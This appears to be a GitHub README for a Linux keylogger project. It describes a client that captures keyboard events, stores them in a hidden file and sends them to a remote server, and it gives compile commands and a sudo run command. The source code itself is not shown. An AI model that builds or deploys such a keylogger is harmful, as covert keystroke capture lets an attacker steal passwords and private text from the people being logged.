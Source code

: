 # key-logger
Linux key logger with remote connection to send data.<br/>

Content:<br/>
1) zserver.c: source file for a server in C to receive the keys. See comments in file.<br/>
2) zklog.ccp: source file for the keylogger client listening to keyboard events EV_KEY. It creates a hidden file .outputz.txt and send every 15 characters to the remote server.<br/>
3) kloglist2.txt is the Linux Kernel event list & numbers. It gets loaded by zklog<br/><br/>

How to use it (on same machine, 2 different terminals):<br/>
1) Compile server:gcc zserver.c -o zserver<br/>
2) Compile keylogger: g++ zklog.cpp -o zklog<br/>
3) Start server:  ./zserver<br/>
4) Start keylogger. Usage sudo ./zklog /dev/input/eventX IPADDRESS<br/><br/>

Note X has to be found, run ./zklog to see which event file is the keyboard connected to. IPADDRESS=127.0.0.1


